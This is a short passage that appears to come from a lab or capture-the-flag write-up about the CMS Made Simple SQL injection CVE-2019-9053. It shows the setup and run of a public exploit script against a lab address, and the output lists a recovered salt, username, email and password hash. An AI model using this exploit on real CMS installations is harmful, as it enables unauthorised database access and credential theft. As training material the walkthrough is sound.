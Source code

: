 ## CMS Made Simple SQL Injection

CMS Made Simple has a significant SQL injection vulnerability, CVE-2019-9053. A Python exploit can be found [here](https://www.exploit-db.com/exploits/46635).

```bash
$ virtualenv -p python2.7 46635
$ source 46635/bin/activate
$ (46635) pip install termcolor
$ (46635) pip install requests
$ python 46635.py -u http://10.10.162.248/simple
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

